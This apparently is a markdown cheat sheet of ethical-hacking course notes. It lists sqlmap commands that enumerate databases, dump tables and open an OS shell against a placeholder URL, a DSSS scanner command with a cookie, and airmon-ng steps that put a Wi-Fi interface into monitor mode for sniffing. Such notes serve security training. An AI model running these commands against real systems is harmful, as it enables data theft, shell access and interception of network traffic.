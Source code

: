 # <span style="color: #e84393; font-size: 1em;">Module 15: SQLi (SQL Injection)</span>


## <span style="color: #3498db; font-size: 0.8em;">  SQLi Attack </span>

>  sqlmap
- `sqlmap -u "domain/page.php?parameter=1" --dbs`
- `sqlmap -u "domain/page.php?parameter=1" -D database --tables`
- `sqlmap -u "domain/page.php?parameter=1" -D database -T table --dump`
- `sqlmap -u "domain/page.php?parameter=1" -D database -T table --os-shell`
- `sqlmap -u "domain/page.php?parameter=1" --cookie="cookie" --dbs`

>  Burp Suite

> DSSS
- https://github.com/stamparm/DSSS
- inspect element
- console>> document.cookie
- `python3 dsss.py -u "domain/page.php?parameter=1" --cookie="cookie"` 

> ZAP


## <span style="color: #3498db; font-size: 0.8em;">  MSSQL </span>

>  Microsoft SQL Server Management Studio (Windows)


----


# <span style="color: #e84393; font-size: 1em;">Module 16: Hacking Wireless Networks</span>

## <span style="color: #3498db; font-size: 0.8em;">  Find WiFi Networks in Range </span>

* NetSurveyor (Windows)


## <span style="color: #3498db; font-size: 0.8em;">  Find WiFi Networks and Sniff WiFi Packets</span>

>  airmon
- Puts the wireless interface into monitor mode:
	* `ifconfig`
	* `airmon-ng start interface`
	* `airmon-ng check kill`
	* `airmon-ng start wlan0mon`
	